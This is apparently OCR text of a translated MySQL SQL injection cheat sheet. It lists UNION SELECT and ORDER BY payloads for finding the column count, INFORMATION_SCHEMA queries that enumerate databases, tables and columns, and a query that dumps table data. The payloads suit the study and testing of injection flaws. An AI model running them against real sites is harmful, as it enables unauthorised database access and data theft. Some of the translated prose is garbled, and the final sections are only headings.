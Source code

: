 chybeta.php?id=1" and "1"="1

Joint inquiry

Query the number of columns

With UNION SELECT injection, if the data to be noted later out of the column with the original number of data columns, it will fail. So need to guess the number of columns.

UNION SELECT

UNION SELECT 1,2,3 #

UNION ALL SELECT 1,2,3 #

UNION ALL SELECT null,null,null #

ORDER BY

Use dichotomy

ORDER BY 10 #

ORDER BY 5  #

ORDER BY 2  #

....
Query the database

UNION SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA #

Query table name

UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() #

Assuming to obtain the database name "databasename", its hexadecimal encoding 0x64617461626173656e616d65.

UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=0x64617461626173656e616d65 #

Query column name

Obtained from the previous step to the table named tablename, its hexadecimal code obtained

UNION SELECT GROUP_CONCAT(column_name SEPARATOR+0x3c62723e) FROM+INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=0x7461626c656e616d65 #

retrieve data

UNION SELECT GROUP_CONCAT(column_1,column_2 SEPARATOR+0x3c62723e) FROM databasename.tablename #

insert / update / delete injection

Reference: SQL Injection in Insert Update and Delete Statements Assuming the background statement is:

insert into user(id,name,pass) values (1,"chybeta","123456");

order by after injection

This part finishing self- sleepy Dragon: MySql injection science popularize by the sort statement, so you can use the conditional statements to make judgments, according to the return of the different sorts of results to determine the true and false conditions.
